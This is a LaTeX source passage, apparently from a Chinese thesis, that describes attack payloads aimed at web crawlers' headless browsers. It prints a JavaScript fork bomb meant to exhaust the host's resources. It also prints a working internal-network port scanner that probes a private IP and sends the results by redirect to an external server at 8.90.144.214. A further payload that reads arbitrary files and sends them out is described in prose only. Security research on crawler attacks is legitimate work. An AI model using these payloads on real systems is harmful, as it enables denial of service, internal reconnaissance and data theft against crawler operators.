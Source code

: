 \documentclass[doctor,privacy,twoside]{buaa_mac}
\begin{document}
如下所示是js fork bomb的攻击载荷，该攻击载荷通过指数级的fork来耗尽对爬虫宿主系统的计算资源，直至其无法再fork新的进程为止：
\lstset{language=JavaScript}
\begin{lstlisting}
function die () {
  setTimeout(function () {die(); die()}, 0)
}
die();
\end{lstlisting}


\subsection{示例端口扫描程序}

该攻击载荷用于在爬虫所使用的无头浏览器中运行，获取爬虫所在宿主机内网中的端口开放情况。因为unsafe ports的浏览器安全机制的限制，部分关键端口无法扫描。扫描完成后，会将扫描结果通过窗口跳转机制传输到指定的服务器上。

\lstset{language=JavaScript}
\begin{lstlisting}
var result="";
var newline = String.fromCharCode(10);
function scanPort(target,port,timeout)
{
  var time = Date.now();
	var img=new Image();
	img.onerror=function ()
	{
	   console.log( target + ':' + port + '  ' + (Date.now() - time) + 'ms');
		if (!img) return;
		img=undefined;
		out(target,port,"open");
	}

	img.onload=img.onerror;
	img.src='http://'+target+':'+port;

	setTimeout(function() {
		if (!img) return;
        img = undefined;
		out(target,port,"close");
		},timeout);
}

function scanTarget(target,port,timeout)
{
	for(i=0;i<port.length;i++)
		scanPort(target,port[i],timeout);
}

var out=function(target,port,status) {
	result+=target+':'+port+'  '+status+newline;
	console.log(target+':'+port+'  '+status+newline);
}

var scan=function(target,port,timeout)
{
	scanTarget(target, port.split(','), timeout);
}

scan("192.168.244.154","80,443,445,1521,2222,3306,3389,5901,6379,\
7001,8000,8001,8005,8080,8888,22222",1000);
setTimeout(function() {window.location.href="http://8.90.144.214/1.php?b="+result;},2000);

\end{lstlisting}

\subsection{任意文件读取攻击载荷}

该攻击载荷一旦成功执行，可以在爬虫所在的宿主机上读取任意文件并发送到远程服务器。但是因为该攻击载荷使用了cross origin request的技巧，因此要求爬虫在本地文件系统上渲染该文件，且无头浏览器安全策略不限制file协议的使用。
\end{document}
